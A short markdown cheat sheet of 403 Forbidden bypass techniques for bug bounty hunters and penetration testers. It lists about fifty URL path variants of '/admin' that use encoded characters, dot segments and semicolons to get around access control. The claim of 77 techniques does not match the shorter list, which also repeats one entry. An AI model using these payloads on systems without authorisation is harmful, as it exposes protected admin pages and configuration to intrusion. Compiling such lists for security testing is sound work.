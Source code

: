 # 403 Bypass

Below is an extensive and updated reference for 403 (Forbidden) bypass techniques and tricks for bug bounty hunters and penetration testers. 

## Url Manipulation Methods

# Seclists jhaddix list 

Below are the top 77 ways to bypass access control on incorrectely protected pages. These work best on config files and global dashboards. 

```
url.com/admin/?
url.com//admin//
url.com///admin///
url.com/./admin/./
url.com/admin?
url.com/admin??
url.com/admin??
url.com/admin/?/
url.com/admin/??
url.com/admin/??/
url.com/admin/..
url.com/admin/../
url.com/admin/./
url.com/admin/.
url.com/admin/.//
url.com/admin/*
url.com/admin//*
url.com/admin/%2f
url.com/admin/%2f/
url.com/admin/%20
url.com/admin/%20/
url.com/admin/%09
url.com/admin/%09/
url.com/admin/%0a
url.com/admin/%0a/
url.com/admin/%0d
url.com/admin/%0d/
url.com/admin/%25
url.com/admin/%25/
url.com/admin/%23
url.com/admin/%23/
url.com/admin/%26
url.com/admin/%3f
url.com/admin/%3f/
url.com/admin/%26/
url.com/admin%2f
url.com%2fadmin
url.com%2fadmin%2f
url.com/admin/#
url.com/admin/#/
url.com/admin/#/./
url.com/./admin
url.com/./admin/
url.com/..;/admin
url.com/..;/admin/
url.com/.;/admin
url.com/.;/admin/
url.com/;/admin
url.com/;/admin/
```